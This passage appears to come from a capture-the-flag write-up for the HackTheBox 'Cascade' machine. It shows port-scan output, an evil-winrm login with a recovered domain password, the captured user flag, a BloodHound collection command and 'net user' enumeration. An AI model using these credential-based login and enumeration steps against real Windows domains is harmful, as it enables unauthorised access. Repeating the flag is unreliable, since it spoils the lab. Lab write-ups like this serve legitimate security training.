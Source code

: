 ```shell
[-] Skipping rdp — port 3389 is closed

[*] Checking if wmi port 135 is open on cascade.htb...
[+] Port 135 open — checking wmi with netexec
RPC         10.10.10.182    135    CASC-DC1         [*] Windows 7 / Server 2008 R2 Build 7601 (name:CASC-DC1) (domain:cascade.local)
RPC         10.10.10.182    135    CASC-DC1         [+] cascade.local\s.smith:sT333ve2 

[*] Checking if nfs port 2049 is open on cascade.htb...
[-] Skipping nfs — port 2049 is closed

[*] Checking if ssh port 22 is open on cascade.htb...
[-] Skipping ssh — port 22 is closed

[*] Checking if vnc port 5900 is open on cascade.htb...
[-] Skipping vnc — port 5900 is closed

[*] Checking if ftp port 21 is open on cascade.htb...
[-] Skipping ftp — port 21 is closed

[*] Checking if mssql port 1433 is open on cascade.htb...
[-] Skipping mssql — port 1433 is closed
```
great! according to the output above, it seems we can login in via win-rm
```shell
evil-winrm -i cascade.htb -u 's.smith' -p 'sT333ve2'
```
logged in succesfully and grabbed the user flag
```shell
cac743f518f998d53ce20a3e24e45756
```

----------
# Privesc

#### BloodHound
```shell
bloodhound-python -u 's.smith' -p 'sT333ve2'  -d cascade.htb -ns 10.10.10.182 -c All --zip
```
it did not work, so lets try to find info from the inside
#### Group membership of user `s.smith`
```shell
net user s.smith
```

```shell
User name                    s.smith
Full Name                    Steve Smith
Comment
User's comment
Country code                 000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/28/2020 8:58:05 PM
Password expires             Never
Password changeable          1/28/2020 8:58:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script                 MapAuditDrive.vbs
User profile
```